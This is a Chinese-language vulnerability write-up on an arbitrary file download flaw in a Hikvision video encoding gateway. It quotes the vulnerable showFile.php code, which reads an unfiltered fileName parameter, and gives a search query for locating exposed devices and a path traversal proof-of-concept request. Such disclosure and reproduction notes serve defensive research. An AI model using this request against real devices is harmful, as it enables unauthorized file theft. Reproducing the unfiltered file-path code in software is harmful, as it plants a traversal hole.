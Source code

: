 # HIKVISION 视频编码设备接入网关 showFile.php 任意文件下载漏洞

## 漏洞描述

海康威视视频接入网关系统在页面`/serverLog/showFile.php`的参数fileName存在任意文件下载漏洞

## 漏洞影响

<a-checkbox checked>HIKVISION 视频编码设备接入网关</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="视频编码设备接入网关"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1630063019704-4b10f55b-d725-4866-b5aa-e73d638b2f27.png)

漏洞文件为 `showFile.php`, 其中 `参数 fileName` 没有过滤危险字符，导致可文件遍历下载



```php
<?php
					$file_name = $_GET['fileName'];
					$file_path = '../../../log/'.$file_name;
					$fp = fopen($file_path, "r");
					while($line = fgets($fp)){
						$line = nl2br(htmlentities($line, ENT_COMPAT, "utf-8"));
						echo '<span style="font-size:16px">'.$line.'</span>';
					}
					fclose($fp);
?>
```



验证POC

```python
/serverLog/showFile.php?fileName=../web/html/main.php
```

![img](../../../.vuepress/public/img/1630063348342-40566a14-18d5-467b-b259-ad3c6888c456.png)